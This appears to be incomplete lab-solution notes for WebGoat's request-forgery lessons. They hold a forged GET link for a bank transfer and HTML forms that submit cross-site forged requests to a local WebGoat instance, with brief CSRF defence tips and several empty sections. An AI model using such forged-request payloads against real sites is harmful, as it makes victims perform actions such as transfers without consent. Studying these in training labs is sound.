 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A8:2013 Request Forgeries](#a82013-request-forgeries)
  - [Cross-Site Request Forgeries](#cross-site-request-forgeries)
  - [Server-Side Request Forgery](#server-side-request-forgery)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A8:2013 Request Forgeries

## Cross-Site Request Forgeries

### 1. What is a Cross-site request forgery?

### 2. CSRF witha GET request

`<a href="http://bank.com/transfer?account_number_from=123456789&account_number_to=987654321&amount=100000">View my Pictures!</a>`

### 3. Basic GET CSRF Exercise

```xml
<form 
	method="POST" 
	target="_blank" 
	action="http://localhost:8080/WebGoat/csrf/basic-get-flag">

    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit">

</form>
```

### 4. Post a review on someone else’s behalf

```xml
<form 
	method="POST" 
	action="http://localhost:8080/WebGoat/csrf/review">

	<input 
		name="reviewText" 
		placeholder="Add a Review" 
		type="text">
	<input 
		name="stars" 
		type="text">
	<input 
		type="hidden" 
		name="validateReq" 
		value="2aa14227b9a13d0bede0388a7fba9aa9">
	<input 
		type="submit" 
		name="submit" 
		value="Submit review">
</form>
```

### 5. Automatic support from frameworks

Define a separate cookie for CSRF protection, do not reuse the session cookie.
Remember the session cookie should always be defined with http-only flag.

### 6. But I only have JSON APIs and no CORS enabled, how can those be susceptible to CSRF?

Do not rely on `application/json` content type but implement a proper CSRF protection.

### 7. CSRF and content-type

TODO

### 8. 

### 9. 

## Server-Side Request Forgery